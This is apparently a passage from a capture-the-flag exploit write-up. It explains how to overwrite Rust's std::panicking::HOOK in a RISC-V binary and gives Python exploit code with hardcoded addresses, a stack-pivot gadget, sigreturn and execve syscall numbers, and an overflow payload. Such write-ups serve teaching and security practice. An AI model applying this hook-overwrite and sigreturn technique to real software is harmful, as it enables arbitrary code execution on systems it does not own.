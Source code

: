 ![image](/files/bts/imgs/hook.png)


We can see in the Rust's source code that HOOK [is an enum Hook wrapped around in a RwLock<>](https://stdrs.dev/nightly/x86_64-unknown-linux-gnu/std/panicking/static.HOOK.html)
```rust
enum Hook {
    Default,
    Custom(Box<dyn Fn(&PanicInfo<'_>) + Sync + Send + 'static>),
}
```
From an exploitation point of view the only things we need to care about are that: at offset +0 we should write zeroes, otherwise we might get a deadlock, at offset +8 seems like there's nothing useful, at offset +16 there is the argument to our function that will be stored in register a0, at offest +24 there's a pointer to some struct at has a function pointer at offset +0x28.

```python
    # Address where `do_pivot` is. `rust_panic_with_hook` reads this address
    # and jumps to whatever function pointer is in there.
    mem_addr = 0x614f8
    
    syscall_plt = 0x121a0
    # Syscall numbers.
    sigret = 0x8b
    execve = 0xdd

    # Distance from sp to the beg of memory we control is 0x450 (1104).
    # The sp pivot is `addi    sp,sp,1296`.
    sp_pivot = 0x1a2b2

    mem_start = p64(sp_pivot)

    # We overwrite std::panicking::HOOK with this.
    overflow = b"\x00" * 128 + \
        p64(0x414141) + p64(sigret) + p64(mem_addr-0x28)
```
